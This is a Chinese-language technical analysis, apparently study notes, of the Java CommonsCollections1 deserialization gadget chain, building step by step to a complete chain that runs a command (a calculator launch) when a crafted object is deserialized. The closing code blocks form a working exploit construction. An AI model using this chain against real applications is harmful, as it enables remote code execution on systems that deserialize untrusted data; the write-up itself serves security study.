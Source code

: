# CommonsCollections1分析



## 1.环境搭建

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

- AnnotationInvocationHandler调试与Find问题

  https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/8dd0918b97a4 下载对应版本的zip，在jd8u65文件夹下存在一个src.zip，解压后将src/share/classes/sun文件夹放在src下。

<img src="./img/image-20240327014808365.png" alt="image-20240327014808365"/>

- 调用Find usages找不到，可以修改配置如下：

  <img src="./img/image-20240327014956561.png" alt="image-20240327014956561"  />

- 版本限制
  - jdk<=8u65

## 2.调试分析

常见的命令调用方式：

```java
Runtime r = Runtime.getRuntime();
r.exec("open -a calculator");
```

当我们利用InvokerTransformer时，它的transform方法如下：

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();//获取input的class对象
        Method method = cls.getMethod(iMethodName, iParamTypes);//通过class对象获取方法
        return method.invoke(input, iArgs); //方法调用还是通过input
    }
      ....
}
```

同样可以构造出执行calc的代码，如下：

```java
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}).transform(r);
```

根据java反序列化的调用方式，需要找到一处调用transform方法的位置。

在CC1链中利用的是`TransformedMap#checksetValue`方法，如下：

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

在`TransformedMap`中是实现了`AbstractInputCheckedMapDecorator`接口，该接口中存在`setValue`方法调用到`checkSetValue`方法,代码如下：

```java
public Object setValue(Object value) {
    value = parent.checkSetValue(value);
    return entry.setValue(value);
}
```

通过`TransformedMap`可以用来装饰另一个`Map`以变换添加的对象，也就是说我们可以将命令执行的代码改写为如下：

```java
Runtime r = Runtime.getRuntime();

InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"});
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("name","123");
Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, invokerTransformer);

for (Map.Entry o : decorate.entrySet()) {
    o.setValue(r);
}
```

那么接下来需要找到一处调用`setValue`方法的位置，这里发现`AnnotationInvocationHandler#readObject`中存在`memberValue.setValue`的调用形式且`memberValue`值可控，使用它继续构造链子,代码如下：

```java
  Runtime r = Runtime.getRuntime();

  InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"});
  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put("name","123");
  Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, invokerTransformer);



  Class<?> annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
  Constructor<?> annotationConstructor = annotation.getDeclaredConstructor(Class.class, Map.class);
  annotationConstructor.setAccessible(true);
  Object o = annotationConstructor.newInstance(Bean.class, decorate);
```

但是该构造很明显存在问题：1.Rumtime不可序列化的. 2.`memberValue.setValue(xxxx)`其中xxx不可控.

为了解决这两个问题，需要利用到其它类，可以使用`ChainedTransformer`它的代码如下：

```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

它实现的功能：依次调用每个Transformer.transform，将结果传递到下一个Transformer中，利用该功能改写一下命令执行的部分,代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"}),
});
chainedTransformer.transform(r);
```

通过以上代码，能够通过`chainedTransformer.transform(r);`进行利用链的调用，但是前面提到的Runtime对象是不能够序列化的，所以还得换种方式。

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});
chainedTransformer.transform(Runtime.class);
```

通过这样的形式，解决了Runtime不可序列化的问题，还有一个问题就是`setValue(xxxx)`其中xxxx是不可控的，所以像上面的调用，无法直接传入`Runtime.class`,这个点需要利用到`ConstantTransformer`,它的transform代码如下：

```java
public Object transform(Object input) {
    return iConstant;
}
```

调用之后原样返回，这样解决setValue值不可控的问题,成功解决了这两个问题，代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});

chainedTransformer.transform("123");
```

结合之前提到的，构造出完整的链子：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});

HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("name","123");
Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, chainedTransformer);



Class<?> annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> annotationConstructor = annotation.getDeclaredConstructor(Class.class, Map.class);
annotationConstructor.setAccessible(true);
Object o = annotationConstructor.newInstance(Bean.class, decorate);

unSerialize(serialize(o));
```



## 3.反序列化调用图

![image-20240327132834298](./img/image-20240327132834298.png)
